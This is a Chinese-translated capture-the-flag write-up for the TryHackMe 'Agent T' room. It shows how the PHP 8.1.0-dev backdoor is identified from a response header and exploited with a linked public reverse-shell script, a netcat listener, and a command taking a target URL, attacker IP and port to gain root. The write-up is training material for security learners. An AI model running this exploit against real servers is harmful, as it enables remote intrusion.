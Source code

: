 # TryHackMe 报道:特工 T

> 原文：<https://infosecwriteups.com/tryhackme-writeup-agent-t-4807b77f768d?source=collection_archive---------1----------------------->

写一篇文章，描述利用代理 T 的步骤

挑战名称:[特工 T](https://tryhackme.com/room/agentt) 由[约翰·哈蒙德](https://tryhackme.com/p/JohnHammond)

![](img/883c5e8ef15e63331f83ce84402c6bd5.png)

特工测试挑战

> **第一步**

启动机器后，我首先扫描 IP 的开放端口和其他服务，但没有什么有趣的发现。

![](img/88878911135d222baa4547adb0544adb.png)

打开端口 80

> **第二步**

由于端口 80 被打开，我试图检查是否有任何网站托管，有一个网站托管与直接访问管理面板，没有任何认证。

![](img/abc842706a3a649d28472c9a5d54b884.png)

管理仪表板

> **第三步**

我试图在管理面板上找到一些有趣的东西，但是没有任何有趣的东西。所以我打了个嗝来检查 HTTP 头。在响应中我发现了一个有趣的头“ ***X-Powered-By*** ”，这个头的值是“***PHP/8 . 1 . 0-dev***”。

![](img/2ea3e4bb0eca0303beb8ba546ad29075.png)

Juciy 标题

> **第四步**

我搜索了与 PHP 版本 8.1.0-dev 相关的漏洞，发现这个版本的 PHP 容易受到远程代码执行的攻击。

![](img/85f749e519c1daa05cbdfdc2363f41d6.png)

漏洞描述

我使用了来自[这里](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py)的漏洞脚本，它给出了反向外壳。

> **第五步**

要运行它，我们首先需要启动监听器。

![](img/b4f61b7bd05f09c7dc0dfd53f6c4cc45.png)

使用 Netcat 启动监听器

现在，我们可以运行这个漏洞，并期望在侦听器上获得反向外壳。

![](img/dfd4021c2633dcf1ac6e495b14baec2f.png)

执行漏洞利用

使用以下命令可以利用漏洞:

***python 3 exploit filename . py "目标 URL" <攻击者 IP > <攻击者端口>***

执行此命令后，稍等片刻，您将得到相反的 shell。

![](img/54b368d08b9744badb4b0095e30e238b.png)

反向外壳

![](img/5e51cf57986b25a2a660b885166f7366.png)

我们已经有了根权限。

> **最后一步**

移动到根目录，你会发现那里的标志。

希望你能解决阅读这个问题。

感谢您的阅读。知识就是力量，所以不断获取！😈

跟随我上 [GitHub](https://github.com/gandhidevansh) ！

*来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。* [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*